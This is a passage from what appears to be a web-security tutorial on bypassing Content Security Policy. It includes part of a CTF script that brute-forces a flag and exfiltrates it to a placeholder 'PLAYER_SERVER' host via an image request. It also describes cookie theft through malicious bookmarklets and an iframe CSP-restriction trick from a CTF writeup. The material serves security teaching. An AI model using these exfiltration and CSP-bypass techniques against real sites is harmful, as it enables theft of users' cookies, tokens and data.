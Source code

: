 ```html
async function run() {
	let prefix = 'nn9ed{';
	while (true) {
		let i = 0;
		for (i;i<alphabet.length;i++) {
			let c = alphabet[i];
			let t =  await query(prefix+c); // Check what chars returns TRUE or FALSE
			console.log(prefix, c, t);
			if (t) {
				console.log('FOUND!')
				prefix += c;
				break;
			}
		}
		if (i==alphabet.length) {
			console.log('missing chars');
			break;
		}
		let t = await query(prefix+'}', true);
		if (t) {
			prefix += '}';
			break;
		}
	}
	new Image().src = 'http://PLAYER_SERVER/?' + prefix; //Exfiltrate the flag
	console.log(prefix);
}

run();
</script>
```

### Via Bookmarklets

This attack would imply some social engineering where the attacker **convinces the user to drag and drop a link over the bookmarklet of the browser**. This bookmarklet would contain **malicious javascript** code that when drag\&dropped or clicked would be executed in the context of the current web window, **bypassing CSP and allowing to steal sensitive information** such as cookies or tokens.

For more information [**check the original report here**](https://socradar.io/csp-bypass-unveiled-the-hidden-threat-of-bookmarklets/).

### CSP bypass by restricting CSP

In [**this CTF writeup**](https://github.com/google/google-ctf/tree/master/2023/web-biohazard/solution), CSP is bypassed by injecting inside an allowed iframe a more restrictive CSP that disallowed to load a specific JS file that, then, via **prototype pollution** or **dom clobbering** allowed to **abuse a different script to load an arbitrary script**.

You can **restrict a CSP of an Iframe** with the **`csp`** attribute:

{% code overflow="wrap" %}
```html
<iframe src="https://biohazard-web.2023.ctfcompetition.com/view/[bio_id]" csp="script-src https://biohazard-web.2023.ctfcompetition.com/static/closure-library/ https://biohazard-web.2023.ctfcompetition.com/static/sanitizer.js https://biohazard-web.2023.ctfcompetition.com/static/main.js 'unsafe-inline' 'unsafe-eval'"></iframe>
```
{% endcode %}
